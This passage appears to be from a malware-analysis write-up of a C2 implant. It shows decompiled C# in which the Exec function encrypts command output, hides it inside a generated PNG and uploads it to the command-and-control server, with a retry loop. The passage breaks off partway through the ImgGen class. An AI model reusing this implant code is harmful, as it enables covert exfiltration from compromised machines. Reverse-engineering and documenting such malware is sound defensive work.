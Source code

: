 
- this is followed by another blob and ends with :


![](https://i.imgur.com/g6Me7hN.png)

- The blob turned out to be a SharpSploit DLL
- Moving forward we get our first POST query which is uploading first PNG to the c2 server :


![](https://i.imgur.com/q2V9nvk.png)

- Notice `Malformed` , lets go back to the source : 

```c#
public static void Exec(string cmd, string taskId, string key = null, byte[] encByte = null)
    {
        if (string.IsNullOrEmpty(key))
        {
            key = pKey;
        }
        string cookie = Encryption(key, taskId);
        string text = "";
        text = ((encByte == null) ? Encryption(key, cmd, comp: true) : Encryption(key, null, comp: true, encByte));
        byte[] cmdoutput = Convert.FromBase64String(text);
        byte[] imgData = ImgGen.GetImgData(cmdoutput);
        int num = 0;
        while (num < 5)
        {
            num++;
            try
            {
                GetWebRequest(cookie).UploadData(UrlGen.GenerateUrl(), imgData);
                num = 5;
            }
            catch
            {
            }
        }
    }
```

- Exec function is responsible for handling command output and PNG uploading
- First it creates an encrypted cookie which contains task ID
- Then it encrypts the command output
- Decodes the base64 cipher string and calls `ImgGen` function
- Then it runs a loop to upload the PNG, if any error occurs then the loop increments and upload is re attempted until file is uploaded perfectly
- Now lets look into `ImgGen` :

```c#
internal static class ImgGen
    {
        private static Random _rnd = new Random();
        private static Regex _re = new Regex("(?<=\")[^\"]*(?=\")|[^\" ]+", (RegexOptions)8);
        private static List<string> _newImgs = new List<string>();
        internal static void Init(string stringIMGS)
        {
            IEnumerable<string> enumerable = Enumerable.Select<Match, string>(Enumerable.Cast<Match>((IEnumerable)_re.Matches(stringIMGS.Replace(",", ""))), (Func<Match, string>)((Match m) => ((Capture)m).get_Value()));
            enumerable = Enumerable.Where<string>(enumerable, (Func<string, bool>)((string m) => !string.IsNullOrEmpty(m)));
            _newImgs = Enumerable.ToList<string>(enumerable);
        }
        private static string RandomString(int length)
```